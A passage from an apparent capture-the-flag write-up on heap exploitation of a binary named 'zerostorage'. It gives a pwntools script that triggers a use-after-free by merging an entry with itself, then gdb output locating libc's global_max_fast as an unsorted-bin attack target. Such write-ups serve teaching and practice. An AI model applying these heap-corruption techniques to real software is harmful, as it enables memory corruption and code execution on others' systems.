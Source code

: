 ```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

target = process("./zerostorage")
gdb.attach(target)
raw_input("Begin...")

def insert(size, data):
    target.recvuntil("Your choice: ")
    target.sendline("1")
    target.recvuntil("Length of new entry: ")
    target.sendline(str(size))
    target.recvuntil("Enter your data: ")
    target.sendline(data)

def merge(index1, index2):
    target.recvuntil("Your choice: ")
    target.sendline("3")
    target.recvuntil("Merge from Entry ID: ")
    target.sendline(str(index1))
    target.recvuntil("Merge to Entry ID: ")
    target.sendline(str(index2))

def view(index):
    target.recvuntil("Your choice: ")
    target.sendline("5")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))
    target.recvline()

# Create two chunks, must prevent consolidate into forest
insert(0x20, "A" * 0x1f)  # 0
insert(0x20, "B" * 0x1f)  # 1

# Merge 0 chunk with itself, use after free
merge(0, 0)               # 2

view(2)
```

After viewing this chunk, we can use gdb to determine the offsets of the important addresses. At this point, we determine what we would like to attack with the unsorted bin exploit as well. In libc, there is a global variable known as global_max_fast, and this holds the size of the largest allowable fastbin for free to create. 

```
gef➤  p &global_max_fast
$1 = (size_t *) 0x7f06ef8767f8 <global_max_fast>
gef➤  x/gx 0x7f06ef8767f8
0x7f06ef8767f8 <global_max_fast>:       0x0000000000000080
```
